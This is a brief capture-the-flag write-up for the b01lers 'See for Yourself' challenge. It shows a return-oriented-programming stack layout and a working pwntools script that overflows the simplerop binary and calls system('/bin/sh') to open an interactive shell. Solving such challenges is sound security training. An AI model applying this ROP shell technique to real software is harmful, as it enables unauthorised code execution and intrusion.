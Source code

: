 ### See for Yourself (200 Points)

> The matrix requires a more advanced trick this time. Hack it.
>
> [attachment](simplerop-af22071fcb7a6df9175940946a6d45e5)

About this challenge, we can use ROP to control the program steam. Avoid the effects of environment we can lay out the stack like this ⬇️

```
+--------------+
|  fake rbp    |
+--------------+
|    ret       |
+--------------+
|    ret       |
+--------------+
|    ret       |
+--------------+
|  pop rdi;ret |
+--------------+
|  & "bin/sh"  |
+--------------+
|  system_plt  |
+--------------+
+     ...      +

```

#### exploit script

```python
#!/usr/bin/env python
from pwn import *

p = process('./simplerop-af22071fcb7a6df9175940946a6d45e5')
#p = remote('chal.ctf.b01lers.com',1008)
elf = ELF('./simplerop-af22071fcb7a6df9175940946a6d45e5')
rop = ROP(elf)

p.recvuntil('yourself.\n')
#gdb.attach(p)
p.sendline('A'*8+p64(rop.ret[0])*3+p64(rop.rdi[0])+p64(elf.search('/bin/sh').next())+p64(0x401080))


p.interactive()

```

